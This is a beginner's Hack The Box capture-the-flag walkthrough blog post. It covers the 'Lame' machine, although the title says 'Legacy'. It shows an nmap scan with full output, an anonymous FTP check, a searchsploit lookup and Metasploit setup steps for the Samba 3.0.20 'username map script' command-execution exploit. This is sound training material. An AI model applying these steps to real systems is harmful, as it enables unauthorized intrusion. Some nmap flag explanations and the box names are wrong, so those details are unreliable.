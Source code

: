 +++
author = "Jake Rice"
title = "This is my Legacy"
date = "2022-06-04"
description = ""
tags = [
    "HTB",
    "CTF_Walkthrough",
]

featureImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Lame_logo.png"
thumbnail = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Lame_logo.png"
shareImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Lame_logo.png"

+++
The clever titles just don't stop! This is my walkthrough of the Legacy HTB. Enjoy, find the video below, and reach out if you have any questions. 

<!--more-->
---
## Startup

This is an entry level beginner freindley box, so the walkthrough is going to be the same. With that being said, the first step that other walkthoughs always skip over is spinning up the box and getting connected. While it is easy once you know how to do it if you don't know how you'll never be able to get started. Feel free to skip to the next section if you already know how to do this.

HTB has 2 options when it comes to completing their boxes. You can spin up a machine via HTB, or connect your own using OpenVPN. I prefer to connect my because of the customizations and different tools I have on my Kali machine, but if you want here is where to find the HTB Attack Box.

The first step if you are connecting via OpenVPN is to first make sure you have OpenVPN installed on your device. Either start typing the command see if it autofills, or if using Kali run:
```bash
sudo apt install openvpn
```
Once you are sure is installed in the same place where you see the attack box you can select OpenVPN. Change the server if desired and then download the file. Find the file location and run the following command:
```bash
openvpn insert/filepath/here
```

After you have connected you may have to refresh the page in order for the connect box to turn green and show your HTB IP. After that the last step is to find the Jerry box and start it up.
{{% notice note "Heads Up"%}}
That IP in the green box will be the IP you use for yourself during interactions with this box. Do not use your actual IP.
{{% /notice %}}

---

## Intelligence Gathering

The first thing I always like to do is run NMap. Here is the NMap scan I ran and a breakdown of the flags I used.
```bash
nmap -sT -sV -Pn -p- -A -T3 tar.get.ip.add -oA /home/kali/HTB/WU/Lame/nmap/scans
```
{{% notice tip "NMAP Flags"%}}
-sT =

-sV = OS Version

-Pn = Scan all ports, and don't ping. (Scans prots no matter what)

-p- = All ports

-A = All

-T3 = Speed level. (Options 1-5 with 1 being slowest and 5 fastest)

-oA = output namp in the three formatss to the specified file path.
{{% /notice %}}

While that is running let's go ahead and see if we can find anything at the IP. Open up a web browser and put in the target machines IP address. We don't get any results, but we'll check a couple of the usual directories just in case. I searched around using /admin /login /user /signin /contact and got nothing, so lets dive in to those NMap results.
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 22:53 EDT
Nmap scan report for 10.10.10.3
Host is up (0.033s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.9
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-04T22:55:49-04:00
|_clock-skew: mean: 2h00m06s, deviation: 2h49m45s, median: 3s

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   32.78 ms 10.10.14.1
2   32.81 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.96 seconds
```

So we've got two items that really catch my eye in that NMap scan. Item one is the port 21 Anonymous FTP, and item two is the Samba ports 139 and 445. Lets start off by looking into port 21 first.

---
## Port 21 - Anonymous FTP

In the NMap scan the first thing that should catch your eye is that port 21 FTP is allowing Anonymous FTP. Anonymous FTP essentially means we can log in wihout having a username or password. We will connect using the user name anonymous with no password.
```bash
ftp anonymous@tar.get.ip.add 
```
{{% notice note "Heads Up"%}}
The username being used is the one before the @ sign.
{{% /notice %}}

Once you get in there you can do some snooping, but you're not able to find anything. Just to cover your bases login using ftp as the user too. Unfourtaenly, there is nothing there either. It appears anonymous FTP was a red herring. That's okay though, because we have another open port to check!

---

## Port 139/445 - Samba

First off what is Samba? Port 139 and 445 are SMB and used for file transfer, and back in the day it used to run on top of NetBIOS. Now days port 445 TCP can use it for file transfer. When looking for this specific version you do find that there is an exploit for it. This is the perfect time to introduce searchsploit.
```bash
searchsploit samba 3.0.2
```
When doing that we see several exploits, but the one we'll focus on is:

{{% notice tip "Searchploit Result"%}}
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
{{% /notice %}}

Now that we've found an exploit it's time to... exploit!

---


## Exploiting the Vulnerablity

From our searchsploit result we see we can use this exploit via Metasploit. Lets get it spun up and dive in.
```bash
msfconsole
```
Once you have it started we can get is set up.

{{% notice tip "Metasploit Setup"%}}
1- Use show options

2-Set the rhost as the target IP (set rhost tar.get.ip.add)

3-Set the lhost as your IP (set lhost your.HTB.ip.add)(The IP given to you via HTB (it's in the green box))

4-Use exploit (exploit OR run)
{{% /notice %}}

It works!! Now time to dig around and find the flags. I'll leave that part for you, but feel free to message me if you need a hand!

---

## Walkthrough Video

{{< youtube vPQDacqDzm0 >}}

<br>